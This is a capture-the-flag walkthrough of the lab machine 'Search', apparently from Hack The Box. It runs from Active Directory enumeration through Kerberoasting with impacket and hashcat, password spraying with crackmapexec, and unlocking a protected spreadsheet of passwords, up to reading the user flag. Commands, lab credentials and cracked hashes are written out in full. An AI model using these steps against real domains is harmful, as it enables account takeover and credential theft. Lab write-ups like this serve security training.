# Search
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.129 -T4                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:42 BST
Warning: 10.10.11.129 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.129 (10.10.11.129)
Host is up (0.10s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
8172/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49702/tcp open  unknown
49712/tcp open  unknown
49733/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1222.26 seconds

```
```
└─$ nmap -Pn -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389 -sC -sV 10.10.11.129 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 22:12 BST
Nmap scan report for 10.10.11.129 (10.10.11.129)
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-23 21:12:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
8172/tcp open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
|_http-title: Site doesn't have a title.
|_ssl-date: 2023-09-23T21:13:36+00:00; -41s from scanner time.
| tls-alpn: 
|_  http/1.1
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -40s, deviation: 0s, median: -41s
| smb2-time: 
|   date: 2023-09-23T21:13:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.21 seconds

```
- `smb`
```
└─$ smbclient -N -L //search.htb                              
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to search.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- Web Server
  - Ports `80`, `443`


- `ldap`
```
└─$ ldapsearch -H ldap://search.htb -x -s base namingcontexts  
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=search,DC=htb
namingcontexts: CN=Configuration,DC=search,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=search,DC=htb
namingcontexts: DC=DomainDnsZones,DC=search,DC=htb
namingcontexts: DC=ForestDnsZones,DC=search,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -H ldap://search.htb -x -b "DC=search,DC=htb" 
# extended LDIF
#
# LDAPv3
# base <DC=search,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

```

- `gobuster`

```
└─$ gobuster dir -u http://10.10.11.129/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  -x aspx,txt --no-error 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.129/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,txt
[+] Timeout:                 10s
===============================================================
2023/09/24 11:19:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.11.129/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.129/Images/]
/staff                (Status: 403) [Size: 1233]
/css                  (Status: 301) [Size: 147] [--> http://10.10.11.129/css/]
/js                   (Status: 301) [Size: 146] [--> http://10.10.11.129/js/]
/Staff                (Status: 403) [Size: 1233]
/fonts                (Status: 301) [Size: 149] [--> http://10.10.11.129/fonts/]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.129/IMAGES/]
```
```
└─$ gobuster dir -u https://10.10.11.129/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  -x aspx,txt --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.11.129/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,txt
[+] Timeout:                 10s
===============================================================
2023/09/24 11:20:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 151] [--> https://10.10.11.129/images/]
/Images               (Status: 301) [Size: 151] [--> https://10.10.11.129/Images/]
/css                  (Status: 301) [Size: 148] [--> https://10.10.11.129/css/]
/js                   (Status: 301) [Size: 147] [--> https://10.10.11.129/js/]
/fonts                (Status: 301) [Size: 150] [--> https://10.10.11.129/fonts/]
/IMAGES               (Status: 301) [Size: 151] [--> https://10.10.11.129/IMAGES/]

```
## Foothold
- We have an interesting pic on the website



- We can try crafting username list and launch `crackmapexec`
```
└─$ username-anarchy -i user.list > hope.user
```
```
└─$ cat hope.user                                                                                     
hope
hopesharp
hope.sharp
hopeshar
hopes
h.sharp
hsharp
shope
s.hope
sharph
sharp
sharp.h
sharp.hope
hs

```

- And we find valid creds
  - `hope.sharp:IsolationIsKey?`
```
└─$ crackmapexec smb search.htb -u hope.user -p 'IsolationIsKey?'
SMB         search.htb      445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         search.htb      445    RESEARCH         [-] search.htb\hope:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\hopesharp:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
```

- `smb`
```
└─$ smbmap -u hope.sharp -p 'IsolationIsKey?' -H 10.10.11.129          
[+] IP: 10.10.11.129:445        Name: search.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              READ ONLY       Active Directory Certificate Services share
        helpdesk                                                NO ACCESS
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        RedirectedFolders$                                      READ, WRITE
        SYSVOL                                                  READ ONLY       Logon server share
```
## User #1
- Let's run `bloodhound`
  - We could also use `ldapdomaindump -u search.htb\\hope.sharp -p 'IsolationIsKey?' 10.10.11.129 -o search.ldap/`
```
└─$ bloodhound-python -u hope.sharp -p 'IsolationIsKey?' -d search.htb -c All -ns 10.10.11.129 --zip
INFO: Found AD domain: search.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 113 computers
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 107 users
INFO: Found 64 groups
INFO: Found 6 gpos
INFO: Found 27 ous
INFO: Found 19 containers
INFO: Found 0 trusts
```

- We have 2 `Kerberoastable` accounts


- Let's get `web_svc` hash
```
└─$ impacket-GetUserSPNs search.htb/hope.sharp -dc-ip 10.10.11.129 -request
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 13:59:11.329031  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$359bc73541e9cf6140199d9f0775794a$0fd56a3a0f5683ac544853c5c92f2b7c74ee9721d8fa760fb87739d6f071d03291db97a743d4e984f059a6bbf72e653efb84d9e45f8148dc948d01dc5ac56975d43d34f33b8a08db1c3c89fb1b92bffbea82b3a6faed6c8366f99f6947a5fdfcdc0d457a6f68fc6acde2763d8205910d2ba80f152ac96b235e49bd5053cd979bb97439b995f89724c984dd0c3fb25a2a85c2bec4cc469b6cc076201bd620faa48c47338de225e7b4f8b97c82e71be514007508225a70f4e80cc5155e606a5568a7ae2ff42986279ef9d8f47a97a2fa5607305e82567624f018fcaaa93f234037b61dc2c3f0b759b457737245a557ea350d07dd10edad172d84756bbe4ee5d47378557c74fed4d97276a203f25ef3a6ea5127e3c4b6a93c2710d7f745d7359386573121e9ad42d91e35ee4ffe1754cea81cce79876fb73b1ab922080b4bae269da2e2680145d305207e80281038b0a5a1a9bd3474a4cedf749aa7294c5395782435ba060508ae74808a8b2f23d4dfac01cf39b7567b605f94dd5ea529cae2940a7eaf5b71a3ff8450f206ef22af7186bbf3d28365263ec9f2c060356a1633259932351831552cc9fbdd3e38694e2cb91e3e0ea8bcfdc82c42dc69bf2348a4b77f98c1872defcc3c7c5dc7614a81d755b75dd162b1847c7a7ae46c207149e257f742e0d979315c8a8ec507b50dc48887075d6f4c0f6a711e35cca2bb0d10d21f8f8841db85ff1790254f2954d97dc3633b7ce0007a6c9575c55cf95982b1db6bf0c5a1e0af4e52249c13c62d670523d4c246fc7a00979fe50bcc5f8db508f0f83a3dbc1a80554fda677ce958fb07916bd696fc3dd37d1cfd50230cf7a7a6ed320c25235147c8e31083089dd4c29b02ee80007a327e165120edd2413bdc604944ef5beb6475b99661a38d51ad72e36325fb5046f262e089c161b7bfbb9106e901e7ca2a53fbca2998cf14f3e3979cd92a2bc6faa9d3b91bb61d1a564b2d2f1e08c649748c2e3b5f48b68faf260e23671d3437c7fd80ae00b36f0d28d4e472f706c0e8018c76536923d3b989056e4505eca1c21a49014289d6f3cad7e7dbf5707319f27979bcb676ef264f6e14175c2890e16413a0e9b2e0b0db93c02e1bf3b9d947b016ac33935f251be0c99299f448d09d8a4d5371b305828f84bfbd0ce24a44008f61a774e18754d3acdec07937b3590ddd831fe0a791658689ceeae2123991dfcdd7d33e55c548720e13428176ef8352ca16a87954f7ab0217006135f5e0d343622ffdb9137fc4f113340fb7cec0c3d0081983912d57c42c40b97e93303c2838e7ce5a6f29148c93be306a754c744654454730813a15f529ac79b555923f7358ae2ac7eddcaccc24d4369239f154c7a514ec6324da28cd1338683cb0dfc37eb3527067ef0fcdcf6ab2be5ba5db214bf2946c24eb7132b4d89904bc02b7446d204dbc823952ee9f86e3e04e61dd76c00f2c8c306ee2
```
```
└─$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$359bc73541e9cf6140199d9f0775794a$0fd56a3a0f5683ac544853c5c92f2b7c74ee9721d8fa760fb87739d6f071d03291db97a743d4e984f059a6bbf72e653efb84d9e45f8148dc948d01dc5ac56975d43d34f33b8a08db1c3c89fb1b92bffbea82b3a6faed6c8366f99f6947a5fdfcdc0d457a6f68fc6acde2763d8205910d2ba80f152ac96b235e49bd5053cd979bb97439b995f89724c984dd0c3fb25a2a85c2bec4cc469b6cc076201bd620faa48c47338de225e7b4f8b97c82e71be514007508225a70f4e80cc5155e606a5568a7ae2ff42986279ef9d8f47a97a2fa5607305e82567624f018fcaaa93f234037b61dc2c3f0b759b457737245a557ea350d07dd10edad172d84756bbe4ee5d47378557c74fed4d97276a203f25ef3a6ea5127e3c4b6a93c2710d7f745d7359386573121e9ad42d91e35ee4ffe1754cea81cce79876fb73b1ab922080b4bae269da2e2680145d305207e80281038b0a5a1a9bd3474a4cedf749aa7294c5395782435ba060508ae74808a8b2f23d4dfac01cf39b7567b605f94dd5ea529cae2940a7eaf5b71a3ff8450f206ef22af7186bbf3d28365263ec9f2c060356a1633259932351831552cc9fbdd3e38694e2cb91e3e0ea8bcfdc82c42dc69bf2348a4b77f98c1872defcc3c7c5dc7614a81d755b75dd162b1847c7a7ae46c207149e257f742e0d979315c8a8ec507b50dc48887075d6f4c0f6a711e35cca2bb0d10d21f8f8841db85ff1790254f2954d97dc3633b7ce0007a6c9575c55cf95982b1db6bf0c5a1e0af4e52249c13c62d670523d4c246fc7a00979fe50bcc5f8db508f0f83a3dbc1a80554fda677ce958fb07916bd696fc3dd37d1cfd50230cf7a7a6ed320c25235147c8e31083089dd4c29b02ee80007a327e165120edd2413bdc604944ef5beb6475b99661a38d51ad72e36325fb5046f262e089c161b7bfbb9106e901e7ca2a53fbca2998cf14f3e3979cd92a2bc6faa9d3b91bb61d1a564b2d2f1e08c649748c2e3b5f48b68faf260e23671d3437c7fd80ae00b36f0d28d4e472f706c0e8018c76536923d3b989056e4505eca1c21a49014289d6f3cad7e7dbf5707319f27979bcb676ef264f6e14175c2890e16413a0e9b2e0b0db93c02e1bf3b9d947b016ac33935f251be0c99299f448d09d8a4d5371b305828f84bfbd0ce24a44008f61a774e18754d3acdec07937b3590ddd831fe0a791658689ceeae2123991dfcdd7d33e55c548720e13428176ef8352ca16a87954f7ab0217006135f5e0d343622ffdb9137fc4f113340fb7cec0c3d0081983912d57c42c40b97e93303c2838e7ce5a6f29148c93be306a754c744654454730813a15f529ac79b555923f7358ae2ac7eddcaccc24d4369239f154c7a514ec6324da28cd1338683cb0dfc37eb3527067ef0fcdcf6ab2be5ba5db214bf2946c24eb7132b4d89904bc02b7446d204dbc823952ee9f86e3e04e61dd76c00f2c8c306ee2:@3ONEmillionbaby
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*...306ee2
Time.Started.....: Sun Sep 24 10:38:02 2023 (14 secs)
Time.Estimated...: Sun Sep 24 10:38:16 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   829.6 kH/s (0.48ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11489792/14344385 (80.10%)
Rejected.........: 0/11489792 (0.00%)
Restore.Point....: 11489280/14344385 (80.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: @5945482 -> @143lovelove
Hardware.Mon.#1..: Util: 90%

Started: Sun Sep 24 10:38:02 2023
Stopped: Sun Sep 24 10:38:17 2023

```

- The creds works for `smb`
  - `web_svc:@3ONEmillionbaby`
  - Yet nothing else
```
└─$ crackmapexec smb search.htb -u web_svc -p '@3ONEmillionbaby' 
SMB         search.htb      445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         search.htb      445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby
```

- Let's try password spraying
  - I'll connect via `rpcclient -U 'web_svc' -N search.htb --password='@3ONEmillionbaby'`
  - And collect all users with `enumdomusers` or `querydispinfo`
```
└─$ crackmapexec smb search.htb -u user.list -p '@3ONEmillionbaby' --continue-on-success
SMB         search.htb      445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         search.htb      445    RESEARCH         [-] search.htb\Administrator:@3ONEmillionbaby STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Guest:@3ONEmillionbaby STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\krbtgt:@3ONEmillionbaby STATUS_LOGON_FAILURE 
...
SMB         search.htb      445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby 
...
SMB         search.htb      445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby 
SMB         search.htb      445    RESEARCH         [-] search.htb\Tristan.Davies:@3ONEmillionbaby STATUS_LOGON_FAILURE 
```

- We have a new creds
  - `Edgar.Jacobs:@3ONEmillionbaby`
  - But nothing interesting in `bloodhound`


- `smbmap` shows interesting file inside `Edgar`'s desktop
  - `Phishing_Attempt.xlsx`
```
└─$ smbmap -u Edgar.Jacobs -p '@3ONEmillionbaby' -H 10.10.11.129 -R 'RedirectedFolders$'
[+] IP: 10.10.11.129:445        Name: search.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        RedirectedFolders$                                      READ, WRITE
        .\RedirectedFolders$\*
...
        .\RedirectedFolders$\edgar.jacobs\Desktop\*
        dw--w--w--                0 Mon Aug 10 11:02:16 2020    .
        dw--w--w--                0 Mon Aug 10 11:02:16 2020    ..
        dr--r--r--                0 Thu Apr  9 21:05:29 2020    $RECYCLE.BIN
        fr--r--r--              282 Mon Aug 10 11:02:16 2020    desktop.ini
        fr--r--r--             1450 Thu Apr  9 21:05:03 2020    Microsoft Edge.lnk
        fr--r--r--            23130 Mon Aug 10 11:30:05 2020    Phishing_Attempt.xlsx

```

## User #2
- If we open the file, it has interesting `Passwords 01082020` tab
  - But the `C` column is protected 


- We can copy and change the file type from `xlsx` to zip
  - We follow the [post]](https://yodalearning.com/tutorials/unprotect-excel/)
  - Now open the archive in zip tool and remove protection
  - Remove `sheetProtection` part
  - And then update it
```
└─$ cp Phishing_Attempt.xlsx Phishing_Attempt_mod.zip
```






- Now we change the extension back to `xlsx`
  - And open the file
```
└─$ mv Phishing_Attempt_mod.zip Phishing_Attempt_mod.xlsx
```




- Let's test the creds
  - `Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18`
```
└─$ crackmapexec smb search.htb -u user.list -p pass.list --no-bruteforce --continue-on-success
SMB         search.htb      445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         search.htb      445    RESEARCH         [-] search.htb\Payton.Harmon:;;36!cried!INDIA!year!50;; STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Cortez.Hickman:..10-time-TALK-proud-66.. STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Bobby.Wolf:??47^before^WORLD^surprise^91?? STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Margaret.Robinson://51+mountain+DEAR+noise+83// STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Scarlett.Parks:++47|building|WARSAW|gave|60++ STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Eliezer.Jordan:!!05_goes_SEVEN_offer_83!! STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Hunter.Kirby:~~27%when%VILLAGE%full%00~~ STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18 
SMB         search.htb      445    RESEARCH         [-] search.htb\Annabelle.Wells:==95~pass~QUIET~austria~77== STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Eve.Galvan://61!banker!FANCY!measure!25// STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Jeramiah.Fritz:??40:student:MAYOR:been:66?? STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Abby.Gonzalez:&&75:major:RADIO:state:93&& STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Joy.Costa:**30*venus*BALL*office*42** STATUS_LOGON_FAILURE 
SMB         search.htb      445    RESEARCH         [-] search.htb\Vincent.Sutton:**24&moment&BRAZIL&members&66** STATUS_LOGON_FAILURE
```

- `bloodhound` shows attack path





- Get flag from `smb`
```
└─$ smbclient //10.10.11.129/RedirectedFolders$ -U 'sierra.frye%$$49=wide=STRAIGHT=jordan=28$$18' 
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\Desktop
smb: \sierra.frye\Desktop\> ls
  .                                 DRc        0  Thu Nov 18 01:08:00 2021
  ..                                DRc        0  Thu Nov 18 01:08:00 2021
  $RECYCLE.BIN                     DHSc        0  Tue Apr  7 19:03:59 2020
  desktop.ini                      AHSc      282  Fri Jul 31 15:42:15 2020
  Microsoft Edge.lnk                 Ac     1450  Tue Apr  7 13:28:05 2020
  user.txt                           Ac       33  Thu Nov 18 00:55:27 2021

                3246079 blocks of size 4096. 762227 blocks available
